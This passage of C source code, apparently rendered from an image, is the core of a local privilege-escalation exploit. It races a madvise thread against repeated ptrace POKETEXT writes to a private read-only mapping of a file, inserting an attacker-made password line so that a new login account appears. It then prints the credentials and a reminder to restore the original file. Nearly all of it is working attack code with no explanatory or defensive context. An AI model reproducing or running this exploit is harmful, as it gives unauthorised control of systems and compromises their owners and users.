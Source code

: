 ```
    plaintext_pw = getpass("Please enter the new password: ");
  }

  user.hash = generate_password_hash(plaintext_pw);
  char *complete_passwd_line = generate_passwd_line(user);
  printf("Complete line:\n%s\n", complete_passwd_line);

  f = open(filename, O_RDONLY);
  fstat(f, &st);
  map = mmap(NULL,
             st.st_size + sizeof(long),
             PROT_READ,
             MAP_PRIVATE,
             f,
             0);
  printf("mmap: %lx\n",(unsigned long)map);
  pid = fork();
  if(pid) {
    waitpid(pid, NULL, 0);
    int u, i, o, c = 0;
    int l=strlen(complete_passwd_line);
    for(i = 0; i < 10000/l; i++) {
      for(o = 0; o < l; o++) {
        for(u = 0; u < 10000; u++) {
          c += ptrace(PTRACE_POKETEXT,
                      pid,
                      map + o,
                      *((long*)(complete_passwd_line + o)));
        }
      }
    }
    printf("ptrace %d\n",c);
  }
  else {
    pthread_create(&pth,
                   NULL,
                   madviseThread,
                   NULL);
    ptrace(PTRACE_TRACEME);
    kill(getpid(), SIGSTOP);
    pthread_join(pth,NULL);
  }

  printf("Done! Check %s to see if the new user was created.\n", filename);
  printf("You can log in with the username '%s' and the password '%s'.\n\n",
    user.username, plaintext_pw);
    printf("\nDON'T FORGET TO RESTORE! $ mv %s %s\n",
    backup_filename, filename);
  return 0;
}
```
